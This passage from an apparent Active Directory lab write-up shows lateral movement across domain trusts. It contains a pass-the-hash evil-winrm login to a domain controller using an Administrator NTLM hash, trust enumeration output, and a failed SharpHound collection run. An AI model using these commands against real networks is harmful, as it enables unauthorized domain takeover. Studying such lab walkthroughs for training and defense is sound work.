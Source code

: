 **Success!** We have successfully moved from the child domain to the parent domain and then to the trusted domain.

```
[Sep 13, 2024 - 22:38:15 (EDT)] exegol-academy /workspace # evil-winrm -i 172.16.114.10 -u Administrator -H 2cd9f13c4aa3b468308525a93696e5a1

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami;hostname
apexcargo\administrator
DC03
```
### Trust Account

In this case, we have a great example to explore trust direction. Specifically, we have an outbound trust, which means that our compromised domain is the trusting domain. Consequently, we cannot enumerate or access resources in the trusted domain from our domain.

```
*Evil-WinRM* PS C:\Users\freak\Desktop>  Invoke-MapDomainTrust


SourceName      : apexcargo.ad
TargetName      : inlanefreight.ad
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 4/1/2024 3:53:05 PM
WhenChanged     : 9/14/2024 1:31:16 AM

SourceName      : apexcargo.ad
TargetName      : mssp.ad
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 4/1/2024 5:49:07 PM
WhenChanged     : 9/14/2024 1:31:16 AM
```


[But can we bypass it?](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-trust-accountusd-accessing-resources-on-a-trusted-domain-from-a-trusting-domain) This is where the [trust account](https://www.securesystems.de/blog/active-directory-spotlight-trusts-part-1-the-mechanics/) comes into play.

```
*Evil-WinRM* PS C:\Users\freak\Desktop> .\SharpHound.exe -c All -d mssp.ad
2024-09-13T22:20:57.7224740-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2024-09-13T22:20:57.8943545-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-13T22:20:57.9099743-05:00|INFORMATION|Initializing SharpHound at 10:20 PM on 9/13/2024
2024-09-13T22:20:57.9568500-05:00|ERROR|Unable to connect to LDAP, verify your credentials
```
As we can see from the output, we attempted to run SharpHound to collect BloodHound data for the `mssp.ad` domain. but it failed.
